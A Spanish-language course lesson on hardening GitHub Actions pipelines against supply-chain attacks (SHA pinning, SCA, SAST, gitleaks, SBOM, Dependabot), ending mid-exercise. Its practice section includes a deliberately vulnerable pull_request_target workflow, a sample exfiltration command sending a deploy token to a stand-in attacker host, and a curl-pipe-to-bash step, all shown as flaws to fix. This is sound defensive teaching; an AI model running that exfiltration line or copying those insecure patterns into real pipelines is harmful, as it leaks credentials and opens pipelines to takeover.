


import Reto from "@components/Reto.astro";
import Solucion from "@components/Solucion.astro";
import Quiz from "@components/Quiz.astro";
import CheckDominio from "@components/CheckDominio.astro";
import Nivel from "@components/Nivel.astro";

<Nivel nivel="intermedio" />

El 19 de marzo de 2026, alguien con credenciales robadas reescribió **76 de los 77 tags de versión** de `aquasecurity/trivy-action` —una de las *herramientas de seguridad* más usadas del ecosistema— para que apuntaran a código que **robaba los secrets de CI/CD** de quien la corriera. Miles de pipelines que tenían `uses: aquasecurity/trivy-action@v0.28` (un tag, no un commit) ejecutaron malware sin cambiar una sola línea de su `.yml`. Léelo de nuevo: el **escáner de seguridad** fue el vector del ataque. Esa es la lección entera de esta sub-unidad en una frase: en 2026, la mayor parte de tu superficie de ataque **no es el código que tú escribes** —es el código que importas (dependencias, actions, imágenes base). En la [5.3](/fase-5-devops/5-3-cicd-github-actions/) montaste un pipeline que prueba *tu* código. Aquí le añades los **gates** que verifican que *lo que importas y lo que envías* es seguro, y endureces la **cadena de suministro** (supply chain) para que un ataque como el de Trivy no te toque.

:::tip[Si ya configuraste escaneos de seguridad (Dependabot, Snyk, un job de Trivy)]
¿Ya viste un PR de Dependabot, o le pegaste un job de escaneo a un pipeline? Bien: tienes la intuición de "algo revisa mis dependencias por mí". La trampa del que "ya lo usó" es haberlo hecho como **ruido que se ignora** (el bot abre 40 PRs y nadie los mira) o como **teatro de seguridad** (un job de Trivy que reporta 200 CVEs y nunca bloquea nada). Dos preguntas separan el hábito del cargo-cult: ¿sabes la diferencia entre **SAST, SCA y secret-scanning** (qué ataca cada uno) y por qué un **SBOM** no es lo mismo que un escaneo? ¿Y entiendes por qué `@v4` en una action **no te protege** del ataque de Trivy pero `@<sha>` sí? Salta a los **ejercicios Primero-Sin-IA** (sección 7): el primero te hace endurecer el pipeline de la 5.3; el segundo te hace auditar un workflow lleno de hoyos y clasificarlos. Si los cierras, valida con el check de dominio (sección 8). Si te descubres pensando "CI verde quiere decir que está seguro", el problema está en la sección 5.
:::

## 1. Qué vas a saber hacer

Al terminar, sin IA y sin notas, podrás:

- **O1 — Añadir al pipeline de la [5.3](/fase-5-devops/5-3-cicd-github-actions/) los gates de supply chain** —**SCA** (dependency scanning), **secret-scanning**, **SAST** y generación de **SBOM**— explicando, para cada uno, **qué ataque previene** y por qué un gate verde de tests no lo cubre.
- **O2 — Endurecer la cadena de suministro del propio pipeline**: pinear las actions a un **commit SHA** (no a un tag), aplicar `permissions` mínimos, y configurar **Dependabot/Renovate** (con `groups` y `cooldown`) para mantener las dependencias al día **sin adoptar a ciegas** una versión recién publicada —explicando el trade-off entre *pin inmutable* y *estar actualizado*.
- **O3 — Auditar un workflow** y clasificar sus fallas de supply chain (con el marco **OWASP CICD-SEC Top 10**), explicando por qué "lint → test → build → deploy" en verde **no implica "seguro"** y dónde vive de verdad la superficie de ataque.

## 2. Por qué importa (el dinero está aquí)

> 💰 **Por qué importa:** "Tu Azure es un activo real; formalízalo y agrega lo que te filtra." Lo que filtra hoy en la banda que persigues no es saber montar un pipeline —eso es la [5.3](/fase-5-devops/5-3-cicd-github-actions/)— es montarlo **con los gates de seguridad puestos**. Después de los ataques a la cadena de suministro que sacudieron 2024–2026 (el backdoor de `xz`, el robo de tokens vía `tj-actions/changed-files`, los dos compromisos de Trivy), **"secret-scanning + dependency-scanning en el pipeline" pasó de diferenciador a requisito**: está, literalmente, en el *Definition of Done* del capstone de esta fase. Un junior entrega un `ci.yml` que corre tests. Un semi-senior entrega un pipeline que, además, **bloquea un secret antes de que se filtre, falla si una dependencia tiene un CVE crítico, y fija sus actions a un hash inmutable para que un tag hijackeado no le robe los secrets**. En una entrevista, "configuré CodeQL, pip-audit y secret-scanning como required checks, y pineé las actions a SHA tras el incidente de Trivy" es una frase que demuestra criterio de seguridad real; "uso Dependabot" no dice nada.

Tres razones lo vuelven una bisagra de carrera:

1. **La superficie de ataque se mudó al código que no escribiste.** Una app moderna es ~5% código tuyo y ~95% dependencias transitivas, actions de terceros e imágenes base. Tus tests prueban tu 5%. Si no escaneas el otro 95%, estás verificando la punta del iceberg e ignorando el bloque.
2. **El pipeline es un objetivo de alto valor.** Tu CI tiene acceso a tus secrets (tokens de la nube, claves de deploy) y permiso para escribir en producción. Comprometerlo es comprometer todo. Por eso existe un Top 10 dedicado solo a esto (**OWASP CICD-SEC**): el pipeline no es solo *plomería*, es **infraestructura crítica con su propia superficie de ataque**.
3. **Cumplimiento y confianza se volvieron tangibles.** Clientes empresariales y reguladores (la *Executive Order 14028* en EE.UU., normativa europea) ya **piden un SBOM** como condición para comprar software. Saber generarlo y escanearlo no es un lujo académico: es lo que te deja vender.

## 3. Lo que ya traes (actívalo)

Esta lección **no parte de cero**: extiende cosas que ya tienes. Recupéralas antes de seguir:

- De la [5.3 CI/CD](/fase-5-devops/5-3-cicd-github-actions/): el `ci.yml` con `permissions: contents: read`, el pin de actions a un **tag** (`@v7`) y la *branch protection* con *required status checks*. Hoy subimos el pin de **tag a SHA** y convertimos los escaneos en checks requeridos.
- De la [5.1 Docker](/fase-5-devops/5-1-docker/): tu imagen parte de una **base** (`python:3.13-slim`, etc.). Esa base trae paquetes del sistema que **también tienen CVEs**. El escaneo de imagen (Trivy) es justo para eso.
- De la [5.2 12-factor](/fase-5-devops/5-2-12-factor/): la config (y los secretos) van **en el entorno, no en el código**. El secret-scanning es la red que atrapa cuando alguien viola ese principio sin querer.
- De la [3.13 OWASP Top 10 web](/fase-3-backend/3-13-owasp-top10-web/): ahí practicaste `gitleaks` para *secrets management* y viste **A06: Componentes vulnerables y desactualizados**. La SCA de hoy es A06 automatizado y puesto como gate. El **OWASP web** protege tu *runtime*; el **OWASP CICD-SEC** de hoy protege tu *pipeline*. Son dos Top 10 distintos para dos superficies distintas.

Antes de seguir, responde de memoria:

<Quiz
  question="En la 5.3 tu pipeline corre lint → test → build y todo está en verde. ¿Qué garantiza ese verde sobre la seguridad de lo que vas a desplegar?"
  options={[
    "Que el código es seguro: si pasara una vulnerabilidad, algún test fallaría",
    "Casi nada sobre seguridad: garantiza que TU lógica hace lo que tus tests comprueban. No dice nada sobre CVEs en tus dependencias, un secret commiteado por error, ni una action de terceros comprometida",
    "Que las dependencias están actualizadas, porque uv sync instala las últimas versiones",
  ]}
  answer={1}
  explanation="Un pipeline verde solo afirma 'lo que el pipeline comprueba está bien'. Si el pipeline solo lintea y testea tu código, no comprueba nada de la cadena de suministro: una dependencia con un CVE crítico, un token de AWS pegado en un commit, o una action hijackeada pasan el pipeline sin despeinarse. La seguridad no es un subproducto de los tests; es un conjunto de gates que hay que añadir explícitamente. Eso es exactamente lo que hace esta lección."
/>

## 4. Ejemplo resuelto, pensado en voz alta

Voy a tomar el `ci.yml` de la 5.3 y le voy a poner los gates **uno por uno**, razonando qué ataque cierra cada uno, como si estuvieras a mi lado. **No lo leas como YAML para copiar: léelo como un mapa de defensas.**

### 4.1 El modelo mental: tu código es la punta del iceberg

Antes de tocar YAML, fija el mapa. Tu pipeline tiene cuatro fuentes de riesgo, y los tests de la 5.3 solo cubren la primera:



Razono el mapa: *"Mis tests prueban que mi lógica **hace lo correcto**. Pero hay tres cosas que ningún test mío va a atrapar: (1) que una librería que importo tenga un CVE conocido —eso lo ve la **SCA**; (2) que se me haya colado un secreto en un commit —eso lo ve el **secret-scanning**; (3) que mi propio código tenga un patrón **inseguro** (una query SQL armada por concatenación, un `eval` sobre input) aunque pase los tests funcionales —eso lo ve el **SAST**. Y aparte está la **cadena de build**: las actions y la imagen base que uso son código de terceros con acceso a mi repo y mis secrets; eso se endurece **pineando a SHA** y recortando `permissions`. El **SBOM** es el inventario que hace todo lo demás auditable. Cinco defensas para cuatro frentes. Vamos una por una."*

Glosario mínimo, porque la sopa de siglas confunde más que el concepto:

| Sigla | Qué es | Qué ataca | Analogía |
|---|---|---|---|
| **SAST** | *Static Application Security Testing*: analiza **tu código** sin ejecutarlo, buscando patrones inseguros | Bugs de seguridad que tú introdujiste (inyección, secrets hardcodeados, `eval`) | Un corrector ortográfico, pero de vulnerabilidades |
| **SCA** | *Software Composition Analysis*: cruza **tus dependencias** contra bases de datos de CVEs | Vulnerabilidades en código de terceros que importas | Un control de "¿alguno de mis proveedores tuvo un retiro de producto?" |
| **SBOM** | *Software Bill of Materials*: la **lista** exacta de todo lo que compone tu software | No "ataca" nada: es el **inventario** que permite responder "¿uso la versión afectada?" en minutos, no días | La lista de ingredientes en una etiqueta |
| **Secret-scanning** | Busca **credenciales** (tokens, claves) en el código y el historial | Filtración de secretos al repo | Un detector de metales en la puerta |

### 4.2 El primer endurecimiento: pin a SHA (la lección de Trivy)

En la 5.3 escribiste `uses: actions/checkout@v7`. Eso es **mejor que `@main`** (un tag no se mueve solo… en teoría). Pero el incidente de Trivy demostró el agujero: **un tag es mutable**. El dueño de la action —o alguien que le robe las credenciales— puede **mover** el tag `v0.28` para que apunte a otro commit, y tu pipeline ejecutará el código nuevo sin que tú cambies nada. Razono la defensa: *"La única referencia **inmutable** en git es el **hash del commit** (SHA-40). Si fijo la action a su SHA, da igual que muevan el tag: yo sigo ejecutando exactamente el commit que audité. El precio es que el SHA es ilegible y no se actualiza solo —por eso Dependabot (sección 4.5) sabe **actualizar pins de SHA** y dejarte un PR con el changelog."*

```yaml
jobs:
  test:
    runs-on: ubuntu-latest
    steps:
      # ❌ 5.3:  - uses: actions/checkout@v7        (tag mutable)
      # ✅ 5.4:  pin al SHA del commit (inmutable). El comentario deja legible la versión.
      - uses: actions/checkout@9c091bb21b7c1c1d1991bb908d89e4e9dddfe3e0  # v7.0.0
      - uses: astral-sh/setup-uv@e92bafb6253dcd438e0484186d7669ea7a8ca1cc  # v6.4.3
        with:
          enable-cache: true
      - run: uv sync --frozen      # tus deps de app YA están pineadas por el lockfile (5.3)
      - run: uv run ruff check .
      - run: uv run pytest
```

> Los SHA de arriba son **ilustrativos**: copia el real desde la página de la action en GitHub (o con `gh api repos/<owner>/<repo>/commits/<tag> --jq .sha`). Hacerlo a mano para 10 actions es tedioso; herramientas como **`pinact`** o el *secure-repo* de StepSecurity pinean todas las actions de un repo a SHA automáticamente. La regla mental: **dependencias de app → lockfile (`--frozen`); actions de terceros → SHA.** Son las dos caras del mismo principio (pinear lo que no controlas).

### 4.3 Gate de secret-scanning: que un token nunca salga del teclado

Un secreto commiteado **queda en el historial de git para siempre**, aunque borres la línea después. Y si el repo es público, los bots lo encuentran en **segundos**. Hay dos capas, y se complementan:

- **GitHub secret-scanning + push protection (nativo).** En repos públicos está activo por defecto y es gratis; GitHub también lo ofrece para repos privados. La pieza clave es **push protection**: si intentas pushear un commit con un token reconocido (de AWS, OpenAI, Stripe…), GitHub **rechaza el push** —el secreto nunca llega al servidor. Es prevención, no detección.
- **`gitleaks` en CI (open-source, portable).** Corre en *cualquier* plataforma (también en local como pre-commit hook, como viste en la [3.13](/fase-3-backend/3-13-owasp-top10-web/)) y escanea **todo el historial**, no solo el push actual. Es tu red para repos privados sin GHAS, para GitLab, y para detectar lo que ya se coló.

```yaml
  secret-scan:
    runs-on: ubuntu-latest
    steps:
      - uses: actions/checkout@9c091bb21b7c1c1d1991bb908d89e4e9dddfe3e0  # v7.0.0
        with:
          fetch-depth: 0          # historial completo: gitleaks escanea TODOS los commits
      - uses: gitleaks/gitleaks-action@ff98106e4c7b2bc287b24eaf42907196329070c7  # v3
```

Razono: *"`fetch-depth: 0` es clave —sin él, el runner solo trae el último commit y gitleaks no ve el historial. La defensa de verdad es la **push protection** (atrapa antes de que el secreto exista en el repo); el job de CI es el cinturón sobre los tirantes. Y una regla que la gente olvida: **un secreto que se filtró está quemado**. No basta con borrar el commit; hay que **rotar** la credencial (revocarla y emitir una nueva), porque ya está en el historial y en los logs."*

### 4.4 Gate de SCA: que un CVE conocido no llegue a producción

Aquí hay dos momentos distintos, y conviene los dos:

- **En el PR — `dependency-review-action`:** cuando un PR **agrega o sube** una dependencia, este action compara el antes/después y **falla el PR** si la versión nueva trae un CVE (o una licencia prohibida). Es el gate más quirúrgico: te avisa **en el momento exacto** en que introduces el riesgo.
- **En cada run — un escáner de tu árbol completo:** `pip-audit` (Python) o `npm audit`/Trivy revisan **todas** tus dependencias instaladas (incluidas las transitivas) contra la base de CVEs. Atrapa lo que ya estaba ahí y los CVEs **descubiertos después** de que mergeaste.

```yaml
  dependency-review:
    runs-on: ubuntu-latest
    if: github.event_name == 'pull_request'    # este action solo aplica en PRs
    steps:
      - uses: actions/checkout@9c091bb21b7c1c1d1991bb908d89e4e9dddfe3e0  # v7.0.0
      - uses: actions/dependency-review-action@56339e523c0409420f6c2c9a2f4292bbb3c07dd3  # v4
        with:
          fail-on-severity: high     # bloquea el PR si entra un CVE alto o crítico

  sca:
    runs-on: ubuntu-latest
    steps:
      - uses: actions/checkout@9c091bb21b7c1c1d1991bb908d89e4e9dddfe3e0  # v7.0.0
      - uses: astral-sh/setup-uv@e92bafb6253dcd438e0484186d7669ea7a8ca1cc  # v6.4.3
      - run: uv sync --frozen
      - run: uvx pip-audit            # escanea el árbol instalado contra la BD de CVEs
```

Razono el matiz que más confunde: *"`fail-on-severity: high` es **criterio**, no pereza. Si bloqueo el PR ante **cualquier** CVE (incluso 'bajo' en una dependencia de dev que nunca toca producción), genero tanto ruido que el equipo aprende a saltarse el gate con `--force` o a aprobar a ciegas —**fatiga de alertas**, que es peor que no tener gate. Bloqueo en `high`/`critical`; lo demás se triagea, no se ignora ni se bloquea. Un gate que grita por todo es un gate que nadie respeta."*

### 4.5 Gate de SAST: bugs de seguridad en tu propio código

SCA mira el código **ajeno**; SAST mira el **tuyo**. **CodeQL** (el motor nativo de GitHub) analiza tu código sin ejecutarlo y marca patrones peligrosos: inyección SQL por concatenación, *path traversal*, SSRF (¿recuerdas la [3.13](/fase-3-backend/3-13-owasp-top10-web/)?), uso de criptografía débil. Hay dos formas de activarlo:

- **Default setup** (recomendado para empezar): un par de clics en *Settings → Code security*. GitHub crea y mantiene el workflow por ti, y te actualiza solo a la versión nueva del motor (hoy **CodeQL Action v4**, sobre Node 24; la v3 se deprecia en diciembre de 2026).
- **Advanced setup**: tú escribes el workflow. Más control (lenguajes, queries personalizadas), más mantenimiento.

```yaml
  sast:
    runs-on: ubuntu-latest
    permissions:
      security-events: write        # CodeQL necesita ESCRIBIR los hallazgos en la pestaña Security
      contents: read
    steps:
      - uses: actions/checkout@9c091bb21b7c1c1d1991bb908d89e4e9dddfe3e0  # v7.0.0
      - uses: github/codeql-action/init@4e94bd11f71e507f7f87df81788dff88d1dacbfb  # v4
        with:
          languages: python
      - uses: github/codeql-action/analyze@4e94bd11f71e507f7f87df81788dff88d1dacbfb  # v4
```

Razono el detalle de `permissions` que rompe a todo el mundo: *"Casi todo el pipeline corre con `contents: read` (mínimo privilegio, como en la 5.3). Pero CodeQL **publica** sus hallazgos en la pestaña *Security* del repo, y para eso necesita `security-events: write`. La regla no es 'todo read' ni 'todo write': es **el permiso mínimo que cada job necesita para su trabajo**. Subir el permiso a nivel de **job** (no de workflow) es exactamente el principio de menor privilegio aplicado."*

### 4.6 SBOM: el inventario que te salva el día del próximo Log4Shell

Cuando estalló Log4Shell (diciembre 2021), la pregunta que paralizó a miles de empresas fue tan simple como aterradora: *"¿usamos la versión vulnerable de log4j… en algún lado?"*. Las que tenían un **SBOM** lo respondieron con una búsqueda de texto en minutos. Las que no, mandaron a sus equipos a auditar repos a mano durante días. Un SBOM es eso: la **lista de materiales** de tu software, en un formato estándar y legible por máquinas.

```yaml
  sbom:
    needs: build
    runs-on: ubuntu-latest
    steps:
      - uses: actions/checkout@9c091bb21b7c1c1d1991bb908d89e4e9dddfe3e0  # v7.0.0
      # Trivy NO solo escanea: también GENERA el SBOM de tu árbol de dependencias.
      - uses: aquasecurity/trivy-action@dc5a429b52fcf669ce959baa2c2dd26090d2a6c4  # v0.33.1
        with:
          scan-type: fs
          format: cyclonedx              # estándar abierto (el otro es SPDX)
          output: sbom.cyclonedx.json
      - uses: actions/upload-artifact@de65e23aa2b7e23d713bb51fbfcb6d502f8667d8  # v5
        with:
          name: sbom
          path: sbom.cyclonedx.json
```

Razono dos cosas. Primero, el **doble guiño de Trivy**: *"Mira la ironía pedagógica —uso Trivy, la action del incidente del inicio, y la fijo a su **SHA** justo por eso. Trivy hace SCA *y* genera SBOM; es buena herramienta, el problema nunca fue la herramienta sino el **tag mutable**. Pinearla a SHA es la defensa correcta, no dejar de usarla."* Segundo, el formato: *"Hay dos estándares vivos —**CycloneDX** (de OWASP, foco en seguridad) y **SPDX** (de la Linux Foundation, foco en licencias). Elegir uno y ser consistente importa más que cuál. GitHub además te genera un SBOM nativo desde el *dependency graph* con un botón."*

### 4.7 Mantener las dependencias al día… sin adoptar malware recién horneado

Pinear congela el riesgo, pero también **congela los parches**: si me quedo en `v1.2.0` para siempre, me pierdo el `v1.2.1` que arregla un CVE. La respuesta es un bot que abre PRs de actualización —**Dependabot** (nativo de GitHub) o **Renovate** (más configurable, multiplataforma). Pero hay una tensión fina, y aquí está el criterio de 2026:

```yaml
# .github/dependabot.yml
version: 2
updates:
  - package-ecosystem: "github-actions"   # mantiene tus pins de SHA al día
    directory: "/"
    schedule:
      interval: "weekly"
    groups:                                # 1 PR agrupado, no 20 sueltos (menos ruido)
      actions:
        patterns: ["*"]

  - package-ecosystem: "pip"
    directory: "/"
    schedule:
      interval: "weekly"
    cooldown:
      default-days: 7                      # NO adoptar una versión hasta que tenga 7 días de vida
    groups:
      python-deps:
        patterns: ["*"]
```

Razono las dos claves nuevas: *"**`groups`** combate la **fatiga de PRs**: sin agrupar, Dependabot abre un PR por dependencia y terminas con 20 PRs que nadie revisa (y aprobar a ciegas un PR de Dependabot es, otra vez, el ataque de supply chain). Agrupados, es **un** PR semanal revisable. **`cooldown`** es la defensa más sutil y más 2026: muchos ataques de supply chain meten malware en una versión **recién publicada**; si Dependabot espera 7 días antes de proponer adoptarla, le das tiempo a la comunidad a detectar el compromiso. Es el equivalente automatizado de 'no seas el primero en instalar la versión que salió hace una hora'."* La tensión de fondo: **pin inmutable** (seguridad, reproducibilidad) **vs. estar al día** (parches). Dependabot resuelve el dilema: pineas a SHA *y* dejas que un bot revisado por ti proponga subir el pin.

### 4.8 El cuadro completo: estos jobs son los nuevos required checks

Igual que en la 5.3 hiciste el job `test` un *required status check*, ahora **`sca`, `secret-scan`, `dependency-review` y `sast` también** entran a la *branch protection*. Ese es el gate real: un PR con un CVE crítico o un secreto filtrado **no se puede mergear**, no por buena voluntad, sino porque la plataforma lo bloquea.



## 5. Errores que vas a tener (y por qué)

:::caution[Podrías pensar que "CI en verde" significa "el código es seguro"]
CI verde significa "**lo que el pipeline comprueba** está bien". Si tu pipeline solo lintea y testea (5.3), el verde no dice **nada** de la cadena de suministro: un CVE crítico en una transitiva, un token de AWS en un commit, o una action hijackeada pasan ese verde sin tocar un test. La seguridad **no emerge** de los tests funcionales; es un conjunto de gates que añades a propósito. "Pasaron los tests" y "es seguro desplegarlo" son dos afirmaciones distintas que requieren dos tipos de verificación distintos.
:::

:::caution[Podrías pensar que pinear una action a `@v4` ya la deja segura]
Un tag es **mutable**: el dueño (o quien le robe las credenciales) puede mover `v4` para que apunte a otro commit, y tu pipeline ejecutará el código nuevo sin que cambies tu `.yml`. Es **exactamente** lo que pasó con `aquasecurity/trivy-action` en marzo de 2026 (76 de 77 tags reescritos a malware). La única referencia inmutable en git es el **SHA del commit** (`@08c6903...`). `@v4` es mejor que `@main`, pero solo `@<sha>` te inmuniza contra el *tag hijacking*. Deja el tag en un comentario al lado para no perder legibilidad, y que Dependabot mantenga el SHA al día.
:::

:::caution[Podrías pensar que con borrar el commit del secreto ya lo "limpiaste"]
No. Un secreto que llegó al repo **ya está comprometido**: vive en el historial de git, en los reflogs, en los logs de CI, y —si el repo es público— probablemente ya lo copió un bot en segundos. Borrar la línea o reescribir el historial **no revoca la credencial**. El único arreglo real es **rotar**: revocar el token/clave expuesto y emitir uno nuevo. Por eso la **push protection** (que bloquea *antes* de que el secreto entre) vale más que cualquier limpieza posterior: la prevención es la única cura barata.
:::

:::caution[Podrías pensar que un SBOM es lo mismo que un escaneo de SCA]
Son piezas distintas de la misma cadena. El **SBOM** es el **inventario** —la lista de todo lo que compone tu software, en CycloneDX o SPDX—. La **SCA** es el **escaneo** —cruzar esa lista (o tu árbol) contra una base de CVEs—. El SBOM no "encuentra" vulnerabilidades; **habilita** encontrarlas mañana: cuando salga el próximo Log4Shell, respondes "¿lo uso?" buscando en tu SBOM en minutos, sin reauditar nada. Generas el SBOM una vez por build; lo escaneas tantas veces como aparezcan CVEs nuevos sobre el software que ya enviaste.
:::

:::caution[Podrías pensar que más gates y bloquear ante todo CVE es "más seguro"]
Un gate que bloquea ante **cualquier** hallazgo (un CVE "bajo" en una dependencia de tests que nunca toca producción, un *finding* informativo de SAST) entrena al equipo a **ignorar el bot** o a saltárselo con `--force`. Eso es **fatiga de alertas**, y deja el pipeline menos seguro que antes, porque ahora nadie mira las alertas que **sí** importan. El criterio profesional: **bloquear** en `high`/`critical`, **triagear** el resto (registrar, agendar, suprimir con justificación), nunca "bloquear todo" ni "ignorar todo". Seguridad útil es seguridad **priorizada**.
:::

## 6. Práctica con andamiaje (que se desvanece)

Tres pasos, de más apoyo a menos. Hazlos **a mano primero**: en seguridad de CI, "ejecutar" es leer el YAML y predecir qué puerta deja abierta.

### 6.1 PREDICT — ¿dónde está el hoyo de supply chain?

Lee este workflow **sin correrlo**. Corre, pasa los tests, y un atacante lo adora. ¿Por qué?

```yaml
name: CI
on:
  pull_request_target:          # <-- fíjate en el evento
jobs:
  test:
    runs-on: ubuntu-latest
    steps:
      - uses: actions/checkout@v4
        with:
          ref: ${{ github.event.pull_request.head.sha }}   # checkout del código DEL PR
      - run: uv sync --frozen
      - run: ./scripts/run-tests.sh
        env:
          DEPLOY_TOKEN: ${{ secrets.DEPLOY_TOKEN }}
```

1. ¿Qué tiene de especial `pull_request_target` frente a `pull_request`?
2. ¿Qué pasa si alguien abre un PR (desde un fork) que modifica `scripts/run-tests.sh`?
3. ¿Por qué es grave que ese job tenga acceso a `secrets.DEPLOY_TOKEN`?

<Solucion title="Ver la respuesta (solo después de predecir)">
1. `pull_request_target` corre con los **secrets del repo base** y permisos elevados, incluso para PRs de **forks** de desconocidos (a diferencia de `pull_request`, que corre sin secrets para forks). Es una decisión de diseño para casos legítimos (etiquetar PRs), pero peligrosísima si encima haces checkout del código del PR.
2. El atacante controla `scripts/run-tests.sh` en su fork. Al combinarse con el checkout del `head.sha` del PR, **su script corre en tu pipeline con tus secrets**. Cambia el script por `curl -d "$DEPLOY_TOKEN" https://atacante.example` y le acabas de regalar tu token de producción. Esto tiene nombre: **Poisoned Pipeline Execution (PPE)**, OWASP CICD-SEC-04.
3. Porque el combo `pull_request_target` + checkout del PR + acceso a un secret poderoso es la receta exacta del PPE. La regla: con `pull_request_target`, **nunca** ejecutes código del PR, y **nunca** le des secrets que no necesite. Para correr tests de un PR de fork, usa `pull_request` normal (sin secrets) y revisa el código antes de aprobar workflows.
</Solucion>

### 6.2 Parsons — ordena las defensas por dónde atrapan el problema

Estas cinco defensas atrapan un secreto filtrado en **momentos distintos**, del más temprano (mejor) al más tardío (peor). Ordénalas:

```text
A. gitleaks en CI escanea el historial y falla el PR
B. push protection rechaza el push en tu máquina
C. rotar la credencial después de descubrir la fuga
D. el pre-commit hook de gitleaks bloquea el commit local
E. un bot externo encuentra el secreto en el repo público y lo abusa
```

<Solucion title="Ver el orden correcto">
Orden (más temprano/mejor → más tardío/peor): **D → B → A → C → E**.

1. **D** pre-commit hook: el secreto **nunca llega a un commit**. La defensa más barata.
2. **B** push protection: ya está en un commit local, pero GitHub **rechaza el push**; nunca toca el servidor.
3. **A** gitleaks en CI: el secreto **ya está pusheado** (en una rama de PR), pero el gate **bloquea el merge** a main. Aún recuperable sin exposición pública si la rama es del repo.
4. **C** rotar: el secreto ya se filtró y lo descubriste; la **única cura** es revocar y reemplazar. Costoso pero necesario.
5. **E** abuso por un tercero: fallaron todas las capas anteriores. Es el peor escenario: ya hay daño.

La moraleja: **mientras más a la izquierda atrapas el problema, más barato sale.** Por eso seguridad de supply chain es *defensa en profundidad*: varias capas, porque cada una puede fallar.
</Solucion>

### 6.3 MODIFY — endurece este workflow con cuatro problemas de supply chain

Este workflow corre, pero deja **cuatro** puertas abiertas. Identifícalas y corrígelas (a mano, sin IA):

```yaml
name: CI
on: [push, pull_request]
permissions: write-all
jobs:
  build:
    runs-on: ubuntu-latest
    steps:
      - uses: actions/checkout@main
      - uses: some-random-user/setup-magic@v1
      - run: curl -sSL https://install.example.com | bash
      - run: uv sync --frozen && uv run pytest
```

<Solucion title="Ver los cuatro problemas y el arreglo">
1. **`permissions: write-all`** — le da al `GITHUB_TOKEN` permisos amplios de escritura sin necesidad. Arreglo: `permissions: contents: read` a nivel de workflow, y subir solo el permiso puntual en el job que lo necesite (como `security-events: write` en el job de SAST). Mínimo privilegio.
2. **`actions/checkout@main`** — action ajena fijada a una rama móvil (riesgo de supply chain, OWASP CICD-SEC-03). Arreglo: pinear al **SHA** del commit, con el tag en un comentario.
3. **`some-random-user/setup-magic@v1`** — una action de un autor **desconocido y no verificado** corriendo en tu pipeline con acceso a tu repo. Arreglo: evitar actions de terceros sin reputación; si es imprescindible, **auditar el código** y pinear a SHA. Prefiere actions oficiales (`actions/*`) o de organizaciones verificadas.
4. **`curl ... | bash`** — descargar y ejecutar un script remoto **sin verificar** es ejecución de código arbitrario sobre el que no tienes control de versión (puede cambiar entre runs). Arreglo: usar una action pineada o instalar desde un artefacto con checksum verificado.

El patrón: **mínimo privilegio, pinear todo lo ajeno a SHA, desconfiar de terceros sin reputación, y nunca ejecutar código remoto sin verificar.** Estos cuatro juntos son el "workflow de tutorial" que un atacante busca.
</Solucion>

## 7. Ejercicios Primero-Sin-IA

Ahora sin andamiaje. Resuélvelos **a mano, sin IA** dentro del timebox. El primero se autocorrige con un test estructural; el segundo se corrige por la **calidad de tu auditoría** —el criterio de seguridad que ninguna IA tiene por ti.

<Reto title="Endurece el pipeline de la 5.3 con gates de supply chain" timebox="35–45 min">

Partes del `ci.yml` de la 5.3 (lint → test) y lo conviertes en un pipeline con seguridad. En la carpeta del ejercicio hay un proyecto Python con `uv`, el `ci.yml` base, y un test estructural (`test_seguridad.py`) que **parsea tu YAML y tu `dependabot.yml`** y verifica que tengan los gates correctos (corre en tu máquina con `pytest` + `pyyaml`, sin GitHub).

Tu trabajo: editar `.github/workflows/ci.yml` y crear `.github/dependabot.yml` para que:

1. El workflow declare `permissions: contents: read` a nivel global (mínimo privilegio).
2. **Ninguna** action use `@main` ni una rama; todas pineadas a un **SHA** (40 hex) con el tag en comentario.
3. Exista un gate de **SCA**: un job con `pip-audit` (`uvx pip-audit`) **o** un step de `dependency-review-action`.
4. Exista un gate de **secret-scanning**: un job con `gitleaks-action` (con `fetch-depth: 0` en su checkout).
5. `.github/dependabot.yml` sea `version: 2`, cubra los ecosistemas **`github-actions`** y **`pip`**, y use `groups` (y, mejor, `cooldown`).

Entregable: `.github/workflows/ci.yml` + `.github/dependabot.yml`. Corre `uv run pytest test_seguridad.py` hasta el verde.

**Hecho significa:**
- [ ] `test_seguridad.py` pasa (permisos mínimos, SHA en todas las actions, gate de SCA, gate de secret-scan, `dependabot.yml` válido).
- [ ] Ninguna action usa `@main` ni un tag móvil; todas a SHA con el tag legible en un comentario.
- [ ] `dependabot.yml` agrupa actualizaciones (`groups`) en vez de abrir un PR por dependencia.
- [ ] Puedes **explicar sin notas** qué ataque cierra cada gate (SCA, secret-scan) y por qué el pin a SHA importa.
- [ ] Puedes decir qué tendrías que configurar **además del YAML** para que un PR con un CVE crítico no se pueda mergear.

Enunciado completo y starter: `ejercicios/fase-5/gates-de-seguridad-ci/` (carpeta del repo).

<Solucion title="Pista (ábrela solo si superaste el timebox)">
